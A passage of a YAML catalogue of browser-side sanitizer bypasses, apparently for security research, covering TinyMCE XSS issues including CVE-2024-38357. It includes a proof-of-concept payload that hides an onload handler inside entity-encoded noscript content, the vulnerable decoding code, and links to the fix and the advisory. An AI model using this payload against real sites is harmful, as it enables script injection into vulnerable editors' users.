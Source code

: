 ```yaml
      ```
    links:
      - https://www.tiny.cloud/docs/tinymce/latest/apis/tinymce.editor/#setContent
  ≤6.8.3&≤7.1.2:
    cve: CVE-2024-38357
    authors:
      - github:Malav-MK
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - noscript-tag
      - any-attr
      - func-call-parameter
    pocs:
      - description: The [tinymce](https://github.com/tinymce/tinymce) editor was was HTML entity decoding `<noscript>` content.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/tinymce/7.1.2/tinymce.min.js"></script>
          <script>
            tinymce.init({
            selector: "#editor",
            plugins: "media",
            toolbar: "undo redo | bold italic | alignleft aligncenter alignright | media",
            menubar: false,
            setup: function (editor) {
              editor.on("init", function () {
                // user input
                editor.setContent("<noscript>&lt;/noscript&gt;&lt;style onload=alert(document.domain)&gt;&lt;/style&gt;</noscript>");
              });
            }
            });
          </script>

          <textarea id="editor" name="content"></textarea>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/tinymce/tinymce/blob/f59e49f83b66262c5e6cc3b53e5258047eb56f4f/modules/tinymce/src/core/main/ts/dom/DomSerializerFilters.ts#L86">https://github.com/tinymce/tinymce/blob/f59e49f83b66262c5e6cc3b53e5258047eb56f4f/modules/tinymce/src/core/main/ts/dom/DomSerializerFilters.ts#L86</a>

      ```javascript
        htmlParser.addNodeFilter('noscript', (nodes) => {
          let i = nodes.length;
          while (i--) {
            const node = nodes[i].firstChild;

            if (node) {
              node.value = Entities.decode(node.value ?? '');
            }
          }
        });
      ```
    links:
      - https://github.com/tinymce/tinymce/commit/a9fb858509f86dacfa8b01cfd34653b408983ac0
      - https://github.com/tinymce/tinymce/security/advisories/GHSA-w9jx-4g6g-rp7x
  ≤5.10.8&≤6.7.2:
    cve: CVE-2023-48219
    authors:
```